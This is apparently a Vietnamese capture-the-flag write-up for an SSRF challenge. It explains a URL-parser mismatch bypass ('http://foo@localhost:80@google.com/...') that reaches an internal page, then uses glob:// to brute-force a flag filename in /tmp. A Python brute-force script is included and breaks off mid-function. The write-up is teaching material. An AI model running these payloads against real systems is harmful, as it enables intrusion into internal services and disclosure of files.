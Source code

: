 ### IDEA
Sau khi phân tích source xong thì có thể thấy rằng bài này là `ssrf` và mình cần làm là phải vượt qua được `blacklist` để access vô `/dir.php` để bằng `localhost`.
- Lúc đầu mình kiếm một số cheatseet về ssrf để kiếm payload bypass, nhưng hầu hết các payload đó đã bị chặn.
- Nhưng có một bài viết của [anh_da_cam](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) nói về sự khác nhau giữa `parse_url` và `curl`.

![image](https://user-images.githubusercontent.com/54855855/146792395-3bb0a62b-5266-488c-bf19-366b50d302eb.png)

- Payload sẽ có dạng như trên hình, khi parse thì PHP sẽ xử lí đoạn `google.com` còn lúc curl thì sẽ xử lí đoạn `evil.com:80`
- Vậy ở đây chúng ta chỉ cần thay đoạn `evil.com:80` thành `localhost:80` thì lúc đó khi parse thì sẽ parse đoạn `google.com` => bypass được hàm `filter`. Lúc curl thì sẽ tới `localhost` => có thể truy cập vô `/dir.php`.
- Khi vô được `/dir.php` rồi mình có thể đọc `flag` vì có hàm `file_get_contents` và tham số `file` có thể control, nhưng với điều kiện phải biết tên file flag và nằm ở đâu.
- Tác giả có gợi ý ở description là flag nằm ở `tmp`
- Tới đây thì mình bắt đầu sử dụng tham số `dir_name` vì nó được đưa vô class `DirectoryIterator` => có thể check được từng file nằm trong từng folder, nhưng ở đây chỉ in ra type của file => không biết được tên của các file và folder.
- Khi mình nhập payload `http://foo@localhost:80@google.com/dir.php?dir_name=/tmp/` có kết quả trả về như dưới

    ![image](https://user-images.githubusercontent.com/54855855/146806305-70c2f703-4145-407d-b02f-c0bbf6f03920.png)

- Sau một hồi stuck thì mình thấy khi mình nghĩ đến phải dùng `glob://` để brute filename hoặc folder nằm trong `/tmp`, nếu có thì sẽ trả về là `dir` hoặc `file`.

### Payload 
```py
import requests
import string

url = 'http://45.122.249.68:10004/ssrf.php'

def getDir():
    dir_tmp = ''
    for i in range(1,500):
        for char in string.printable.replace("*",'').replace("?", ''):
            # print(char,end='\r')
            params = {'host':f'http://foo@localhost:80@google.com/dir.php?dir_name=glob:///tmp/{dir_tmp+char}*'}
            r = requests.get(url, params=params)
            if "file" in r.text or 'dir' in r.text:
                dir_tmp += char
                break
        if "#" in dir_tmp:
            break
    return dir_tmp[:-1]

def getFile():
    dir_flag = getDir()
    flag_name = ''
    for i in range(1,500):
        for char in string.printable.replace("*",'').replace("?", ''):
            # print(char,end='\r')
            params = {'host':f'http://foo@localhost:80@google.com/dir.php?dir_name=glob:///tmp/{dir_flag}/{flag_name+char}*'}
            r = requests.get(url, params=params)
            if "file" in r.text or 'dir' in r.text:
                flag_name += char
```